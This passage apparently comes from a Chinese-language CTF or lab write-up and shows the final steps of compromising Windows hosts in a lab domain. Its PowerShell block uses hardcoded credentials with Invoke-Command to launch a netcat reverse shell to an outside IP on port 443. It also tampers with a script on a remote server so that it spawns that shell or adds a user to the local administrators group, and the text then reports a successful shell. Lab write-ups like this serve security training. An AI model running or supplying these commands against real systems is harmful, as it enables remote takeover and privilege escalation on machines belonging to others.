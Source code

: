 ## 修改脚本

修改脚本来进行反弹 shell。

```bash
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.16.10 443} -ComputerName Acute-PC01 -Credential $creds
Invoke-Command-ScriptBlock{((cat..\desktop\wm.ps1-Raw)-replace'Get-Volume','C:\utils\nc64.exe -e cmd 10.10.16.10 443')|sc-Path..\desktop\wm.ps1}-ComputerNameATSSERVER-ConfigurationNamedc_manage-Credential$cred
Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.16.10 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((Get-Content "c:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $Creds
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path  ..\desktop\wm.ps1} -credential $Creds
```

然后重启主机，进行测试，发现可用执行。

[![](assets/1706145607-febf6942ad04ad464b82f5c9836e2ae0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113824-06f44d98-ba6a-1.png)

## 反弹 shell

成功获取 shell

[![](assets/1706145607-06b7b64278ebec7f1a1cc1661f9af658.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113831-0b427bb8-ba6a-1.png)
